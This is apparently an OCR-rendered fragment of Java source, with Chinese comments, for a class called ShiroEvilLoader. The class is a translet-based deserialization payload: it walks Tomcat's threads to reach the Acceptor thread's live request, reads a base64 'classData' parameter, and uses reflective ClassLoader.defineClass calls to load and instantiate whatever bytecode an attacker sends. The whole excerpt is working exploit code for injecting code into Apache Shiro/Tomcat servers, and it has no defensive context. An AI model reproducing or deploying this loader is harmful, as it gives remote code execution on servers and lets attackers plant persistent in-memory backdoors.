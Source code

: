 ```java
                Object req = getField(next, "req");
                Object serverPort = getField(req, "serverPort");
                if (serverPort.equals(-1)) {
                    continue;
                }
                org.apache.catalina.connector.Request request = (org.apache.catalina.connector.Request) ((org.apache.coyote.Request) req).getNote(1);
                //获取请求中的classData参数的值
                String bs64_data = request.getParameter("classData");
                if(bs64_data != null){
                    byte[] bytes = Base64.getDecoder().decode(bs64_data);
                    java.lang.reflect.Method defineClassMethod = ClassLoader.class.getDeclaredMethod("defineClass", new Class[]{byte[].class, int.class, int.class});
                    defineClassMethod.setAccessible(true);
                    Class clazz = (Class) defineClassMethod.invoke(ShiroEvilLoader.class.getClassLoader(), bytes, 0, bytes.length);
                    clazz.newInstance();
                }
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    //获取属性
    public static Object getField(Object object, String fieldName) {
        Field declaredField;
        Class clazz = object.getClass();
        while (clazz != Object.class) {
            try {
                declaredField = clazz.getDeclaredField(fieldName);
                declaredField.setAccessible(true);
                return declaredField.get(object);
            } catch (NoSuchFieldException e) {
            } catch (IllegalAccessException e) {
            }
            clazz = clazz.getSuperclass();
        }
        return null;
    }

    //获取Acceptor线程
    public static Object GetAcceptorThread() {
        //获取当前所有线程
        Thread[] threads = (Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads");
        for (Thread thread : threads) {
            if (thread == null || thread.getName().contains("exec")) {
                continue;
            }
            if ((thread.getName().contains("Acceptor")) && (thread.getName().contains("http"))) {
                Object target = getField(thread, "target");
                Object jioEndPoint = null;
```